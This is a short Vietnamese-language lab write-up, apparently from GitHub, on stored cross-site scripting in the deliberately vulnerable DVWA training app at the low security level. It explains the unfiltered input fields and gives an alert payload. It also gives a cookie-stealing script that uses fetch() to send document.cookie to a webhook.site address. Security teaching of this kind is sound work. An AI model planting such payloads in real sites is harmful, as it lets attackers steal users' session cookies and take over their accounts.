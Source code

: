 
# Stored Cross Site Scripting (XSS) - DVWA

Mức độ: **LOW**, **MEDIUM**, **HIGH**

---

## 🔹 LEVEL: LOW

### 📌 Description:
Giao diện cho phép nhập vào 2 trường `name` và `message`.  
Khi nhập text bình thường → kết quả sẽ hiển thị lại dưới dạng label.

<img width="611" height="262" alt="image" src="https://github.com/user-attachments/assets/2c0f1faf-b410-4ab6-8aeb-643ff0af1240" />

---

### 🎯 Goals:
Tiêm được đoạn mã JavaScript để server xử lý (Stored XSS).

---

### 🔍 Phân tích:

- Source code **không hề lọc input** → `name` và `message` được đưa thẳng vào truy vấn `INSERT` để lưu vào database.
- Có giới hạn ký tự trong form HTML, nhưng có thể **bypass bằng Burp hoặc DevTools**.

<img width="602" height="190" alt="image" src="https://github.com/user-attachments/assets/d3b5aeec-ec4f-47a3-8a05-8500d0a3d2be" />

---

### 🧪 Thực hành:

Payload đơn giản:

```html
<script>alert("hacker lor da ghe tham")</script>
```

<img width="600" height="198" alt="image" src="https://github.com/user-attachments/assets/f43b6752-91a5-4a7c-a8b3-fba41e91f868" />


Kết quả: script thực thi bình thường.

Payload nâng cao:

```html
<script>
  fetch("https://webhook.site/your-id?cookie=" + document.cookie)
</script>
```

<img width="607" height="223" alt="image" src="https://github.com/user-attachments/assets/28345b1d-3e6f-460d-a782-7e247382338e" />
